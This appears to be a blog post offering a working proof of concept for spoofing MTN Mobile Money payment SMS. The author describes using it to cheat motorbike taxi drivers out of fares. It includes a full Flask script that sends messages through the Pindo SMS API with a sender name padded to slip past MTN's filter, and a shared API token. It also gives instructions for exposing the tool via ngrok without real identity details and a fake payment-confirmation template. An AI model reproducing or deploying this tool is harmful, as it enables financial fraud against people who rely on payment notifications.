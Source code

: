 # ksjldkjfsl

Big things coming. i’ve create a github repo for POC(proof of concept) check this out..

so apparently when you send money to person with mtn the rarely check the name and the whatnot and i’ve managed to use pindo api to impersonate mtn-mobile money..

personally i’ve manage to take motorbikes for for a whole week because ofcourse i had to test if it works ..and i have decided to make report it to mtn … their firewall can only detect filter message thats titled “M-Monye” but when you add a little bit of space like “M-Money “ you can effectively imporsonate a mobile money and pretend to have sent a person … it was quite effective for people who’re are busy who only checks the message arrival and the money being received… i got caught a couple times with people who pay attention to details 

so here’s a POC

you need few python modules to make it work but the whole process can be achieved by curl message and post methods

python modules

flask 

flask-sqlachemy

flask-wtf

and jinja2 

am not gonna go into the details of those . you can check them out yourself

the script

```python
from flask import Flask, render_template, request, redirect, flash
from flask_wtf import FlaskForm
from wtforms import StringField, TextAreaField
from wtforms.validators import DataRequired
from flask_sqlalchemy import SQLAlchemy
import requests

app = Flask(__name__)
app.config['SECRET_KEY'] = 'idontdrinkmyownpee'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///messages.db'  # Use SQLite database
db = SQLAlchemy(app)

class SMSForm(FlaskForm):
    numbers = StringField('Phone Numbers (comma-separated)', validators=[DataRequired()])
    message = TextAreaField('Message', validators=[DataRequired()])

class Message(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    numbers = db.Column(db.String(255), nullable=False)
    message = db.Column(db.String(255), nullable=False)

PINDO_API_TOKEN = 'eyJhbGciOiJub25lIn0.eyJpZCI6OTgyLCJyZXZva2VkX3Rva2VuX2NvdW50IjowfQ.'

@app.route('/', methods=['GET', 'POST'])
def send_sms():
    form = SMSForm()

    if form.validate_on_submit():
        numbers = form.numbers.data
        message = form.message.data

        numbers_list = [num.strip() for num in numbers.split(',')]

        headers = {'Authorization': 'Bearer ' + PINDO_API_TOKEN}
        url = 'https://api.pindo.io/v1/sms/'

        with app.app_context():  # Enter the application context
            for number in numbers_list:
                data = {'to': number, 'text': message, 'sender': ' M-Money'}
                response = requests.post(url, json=data, headers=headers)

                print(f'Sending to {number}: {response.status_code}')

                # Store the sent message in the database
                new_message = Message(numbers=number, message=message)
                db.session.add(new_message)
                db.session.commit()

            flash('SMS sent successfully!', 'success')
            return redirect('/')

    return render_template('index.html', form=form)

if __name__ == '__main__':
    with app.app_context():  # Enter the application context
        db.create_all()  # Create database tables
    app.run(debug=True)
```

you can use my pindo api token for configuration but you can easily get your token when you sign in … matter of fact you don’t even have to use legimate information … as long as you have a google account you’re good to go when you sign in to pindo you check your profile for 

the token and use the same token but its worth checking it out explore yourself 

then then when you run 

python3 [app.py](http://app.py) considering that you’ve name your app app.py

it runs locally on address 172.0.0.1:5000 on port 5000 because flasks projects typically

runs on port 5000

and then to make the app available to the internet i used ngrok of course am not gonna talk about it but you can get an account right now if you have google account [https://dashboard.ngrok.com/signup](https://dashboard.ngrok.com/signup) you can also create ngrok accoung to get their token for free without providing your personal deatails and here’s the link to download it using git clone [https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz](https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz) .. after downloading you check the file type and unzip it using gzip -d “filename” and when the unzip is done 

the file will come with .tar extension use tar xvf to unarchive it . and then run

`ngrok config add-authtoken "token"`  you’ll use your personal token and after configuring you run it with ./ngrok http 5000 and when you its fully operational you can copy the link provided and paste it in your browser address and then you see something like this

and then you make ngrok run on the same project run on port 5000 as soon as you the local application is on the internet you get an url you input in your browser for sending messages and

now when you send the message its like this …..

i used this template as a message 

You have received 20000 RWF from UWERA MARIE CLAIRE (*********876) on your mobile money account at 2023-08-10 03:27:39. Message from sender: 1. Your new balance: 2018 RWF. Loyalty fee was 0 and loyalty reward was 0. Promotion was 0. Financial Transaction Id: 10438338079.

of course you edit the message to make it look legitmate and when you hop on off the bike you send your imaginary money then you’re good to go.

thats was cool right?

Happy hacking.
